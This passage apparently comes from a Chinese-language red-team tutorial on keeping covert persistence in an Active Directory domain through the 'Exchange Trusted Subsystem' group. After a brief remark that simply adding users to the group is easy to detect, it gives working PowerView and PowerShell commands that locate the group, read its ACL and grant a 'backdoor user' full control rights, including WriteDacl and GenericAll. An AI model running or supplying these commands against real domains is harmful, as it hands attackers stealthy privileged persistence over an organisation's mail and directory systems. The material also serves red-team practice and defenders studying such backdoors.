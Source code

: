 但是不够隐蔽，很容易被发现添加的用户

查看的命令如下：

```
net group "Exchange Trusted Subsystem" /domain
```

### 方法2：只添加特定用户对Exchange中三个组ACL的控制权限

这里以`Exchange Trusted Subsystem`为例

#### 1.首先需要找到Exchange Trusted Subsystem的DN(Distinguished Name)

需要使用Powerview的dev版本，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

查看所有DN的Powershell命令如下：

```
Import-Module .\PowerView.ps1
Get-DomainObject -Properties distinguishedname |fl
```

找到`Exchange Trusted Subsystem`的DN为：`CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com`

#### 2.查看Exchange Trusted Subsystem的ACL

Powershell命令如下：

```
Get-DomainObjectAcl -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com"
```

#### 3.获得Exchange Trusted Subsystem的原始数据

```
$RawObject = Get-DomainObject -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" -Raw
```

#### 4.添加后门用户testb对Exchange Trusted Subsystem的完全访问权限

```
$RawObject = Get-DomainObject -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" -Raw
$TargetObject = $RawObject.GetDirectoryEntry()
$ACE = New-ADObjectAccessControlEntry -InheritanceType All -AccessControlType Allow -PrincipalIdentity testb -Right AccessSystemSecurity,CreateChild,Delete,DeleteChild,DeleteTree,ExtendedRight,GenericAll,GenericExecute,GenericRead,GenericWrite,ListChildren,ListObject,ReadControl,ReadProperty,Self,Synchronize,WriteDacl,WriteOwner,WriteProperty
$TargetObject.PsBase.ObjectSecurity.AddAccessRule($ACE)
$TargetObject.PsBase.CommitChanges()
```
